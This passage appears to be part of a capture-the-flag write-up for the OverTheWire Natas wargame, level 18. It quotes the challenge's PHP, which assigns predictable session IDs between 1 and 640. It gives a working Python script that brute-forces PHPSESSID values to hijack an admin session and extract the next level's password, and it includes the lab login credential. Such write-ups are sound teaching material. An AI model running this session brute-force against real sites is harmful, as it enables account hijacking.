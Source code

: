 as further analyzing the php file `$maxid = 640;`

```php
function createID($user) { /* {{{ */    global $maxid;
    return rand(1, $maxid);
}
```

It creating random id between 1 to 640 , ` session_id(createID($_REQUEST["username"]));`
and `isValidAdminLogin();` , let brute force `PHPSESSID` between 1 to 640 , if will manipulate with correct` __id__` , we will got You are an admin with credentials

```php
import requests
import sys,os
import re

cmd = ""
os_name = sys.platform
if os_name == 'win32':
	cmd = "cls"
elif os_name == 'linux' or os_name == 'darwin':
	cmd =  "clear"

username = "natas18"
password = "8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq"

url = "http://%s.natas.labs.overthewire.org"%username
session = requests.Session()
for _id_ in range(1,641):
	print("Trying PHPSESSID:",_id_)
	response = session.post(url , cookies={"PHPSESSID" : str(_id_) }, auth=(username,password))
	content = response.text
	if "You are an admin." in content:
		flag = re.findall("Username: natas19\nPassword: (.*)</pre>",content)[0]
		print("[+] Gotcha " ,flag)
		break
	os.system(cmd)
```

---

### Natas 19

<img src="img/Pasted image 20240505190226.png" alt="Example Image" width="1080"/>
Let's view source file [view-source](http://natas19.natas.labs.overthewire.org/index-source.html)
